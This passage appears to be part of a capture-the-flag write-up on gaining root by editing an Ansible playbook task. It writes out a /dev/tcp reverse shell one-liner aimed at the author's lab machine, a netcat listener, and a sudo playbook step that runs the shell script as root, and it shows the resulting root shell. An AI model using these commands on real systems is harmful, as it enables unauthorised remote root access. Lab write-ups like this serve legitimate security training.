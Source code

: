 ```
  command: /bin/sh -i >& /dev/tcp/10.9.13.203/9001 0>&1
```

But this turns out not to work :<

I tried adding sudo at the start, still nothing.

```
TASK [geerlingguy.apache : root] *******************************************************************************************************
[WARNING]: Consider using 'become', 'become_method', and 'become_user' rather than running sudo
fatal: [10.10.102.251]: FAILED! => {"changed": true, "cmd": ["sudo", "/bin/sh", "-i", ">&", "/dev/tcp/10.9.13.203/9001", "0>&1"], "delta": "0:00:00.022810", "end": "2022-03-26 20:04:00.938186", "msg": "non-zero return code", "rc": 127, "start": "2022-03-26 20:04:00.915376", "stderr": "sh: >&: No such file or directory", "stderr_lines": ["sh: >&: No such file or directory"], "stdout": "", "stdout_lines": []}
```

Since it does say no such file or directory, I thought that maybe we could create a text file and then just run it with the file we can edit using bash in the command: line.

So we go to /tmp and create a text file called shell.sh containing our shell.

```
/bin/sh -i >& /dev/tcp/10.9.13.203/9001 0>&1
```
We open a listener on our machine with:

```
nc -lvnp 9001
```

Now we just need to run it as root, meaning we have to edit the file with the following:

```
- name: root
  command: sudo bash /tmp/shell.sh
```
This will now run our shell.sh with root access and on our listener we will get the shell.

Now I would stabilize it, but the goal was to get the root flag, so I just do cd /root and find it there, so no need for that.

```
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
